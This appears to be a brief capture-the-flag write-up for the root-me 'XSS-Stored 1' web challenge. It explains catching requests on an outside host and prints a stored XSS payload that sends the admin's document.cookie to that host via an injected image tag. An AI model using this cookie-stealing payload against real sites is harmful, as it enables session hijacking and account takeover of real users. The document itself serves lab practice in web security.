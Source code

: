 #### root-me
##### web-client | XSS-Stored 1 challenge
You must to have a host to catch the request. Because you wanna Admin cookie not your cookie; so you must to store payload and catch admin cookie.</br>
This [site](https://requestbin.fullcontact.com) can be usefull to make a request.
and finally use this payload in message box:
```
<script>document.write(“<img src=’HOST?=”+document.cookie+”‘></img>”);</script>
```
